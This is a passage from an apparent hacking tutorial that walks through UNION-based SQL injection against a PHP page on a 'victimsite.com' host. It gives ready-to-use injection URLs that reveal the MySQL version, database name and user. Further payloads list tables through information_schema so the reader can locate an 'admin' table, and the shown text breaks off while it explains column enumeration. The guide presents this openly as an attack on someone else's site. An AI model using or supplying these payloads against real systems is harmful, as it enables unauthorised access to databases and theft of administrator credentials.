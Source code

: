 Like this:


Now select 1 number.
It showing 3,7. Let’s take the Number 3.

#### Step 5: Finding version,database,user
Now replace the 3 from the query with “version()”

For eg:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,version(),4,5,6,7--
```
It will show the version as 5.0.1 or 4.3. something like this.

Replace the version() with database() and user() for finding the database,user respectively.

For eg:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,database(),4,5,6,7--

http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,user(),4,5,6,7--
```
If the above is not working,then try this:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,unhex(hex(@@version)),4,5,6,7--
```

#### Step 6: Finding the Table Name
if the version is 5 or above. Then follow these steps.  Now we have to find the table name of the database. Replace the 3 with “group_concat(table_name) and add the “from information_schema.tables where table_schema=database()”

For eg:
```
http://www.victimsite.com/index.php?id=-2 and 1=2 union select 1,2,group_concat(table_name),4,5,6,7 from information_schema.tables where table_schema=database()--
```
 Now it will show the list of table names. Find the table name which is related with the admin or user.


Now select the “admin ” table.

if the version is 4 or some others, you have to guess the table names. (user, tbluser).  It is hard and bore to do sql inection with version 4.

#### Step 7: Finding the Column Name

Now replace the “group_concat(table_name) with the “group_concat(column_name)”

Replace the “from information_schema.tables where table_schema=database()–” with “FROM information_schema.columns WHERE table_name=mysqlchar–

Now listen carefully ,we have to find convert the table name to MySql CHAR() string and replace mysqlchar with that .

Find MysqlChar() for Tablename:
First of all install the HackBar addon:
https://addons.mozilla.org/en-US/firefox/addon/3899/
